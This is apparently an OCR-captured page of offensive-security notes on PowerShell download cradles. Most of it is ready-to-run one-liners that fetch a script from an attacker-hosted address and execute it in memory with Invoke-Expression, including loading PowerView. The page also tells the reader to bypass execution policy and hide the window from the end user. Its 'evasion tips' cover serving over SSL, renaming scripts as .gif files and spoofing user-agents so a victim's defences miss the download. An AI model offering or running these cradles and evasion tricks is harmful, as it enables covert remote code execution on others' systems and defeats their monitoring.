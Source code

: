 When executing the download cradles from a windows cmd prompt or shell, or when launching the PS executable, make sure to include the `-ExecutionPolicy Bypass` and `-Window Hidden` options.

This will ensure we can run scripts and our PS window stays hidden from the end user. `powershell.exe -ExecutionPolicy bypass -Window hidden .\script.ps1`

### Web Request

1. System.Net.WebClient
2. System.Net.WebRequest

### --> Using \[WebClient]

## A - Downloading Web Requests and executing scripts in memory

The "DownloadString" is what executes the script in the memory.

`ps> iex (New-Object Net.WebClient).DownloadString("http://192.168.0.100:8000/test.ps1")` - run PS scripts in memory.

`cmd> powershell.exe iex (New-Object Net.WebClient).DownloadString('http://192.168.0.100:8000/test.ps1')` - downloads and executes a remotely hosted powershell script from cmd prompt.&#x20;

or

`cmd> powershell.exe iex (New-Object Net.WebClient).DownloadString('http://192.168.0.100:8000/PowerView.ps1'); Get-Domain` - This imports the module into memory and execute the function "Get-Domain".

or

`cmd> powershell.exe -Command $downloader = New-Object System.Net.WebClient; $payload = 'http://192.168.0.100:8000/test.ps1'; $command = $downloader.DownloadString($payload); Invoke-Expression $command` - executing it as a oneliner in cmd prompt terminal.

## Important Evasion Tips

### 1 - Use SSL when hosting files for transfer to victim

### 2  - Renaming .ps1 scripts with different extension name

It should be noted that where possible when hosting your remote Powershell Script, to have an SSL CERTIFICATE configured on the attacker machine. This helps in evading over-the-wire heuristics as our traffic will go over HTTPS. Another trick we can use which might help in evading basic file extension heutristics is to give our PS scripts a different extension, for instance, "Logo.gif". PS will still execute it as a .ps1 script.&#x20;

`cmd> powershell.exe iex (New-Object Net.Webclient).DownloadString('http://192.168.0.100:8000/test.gif')`

### 3 - Specifying Custom User-agent string to evade detection
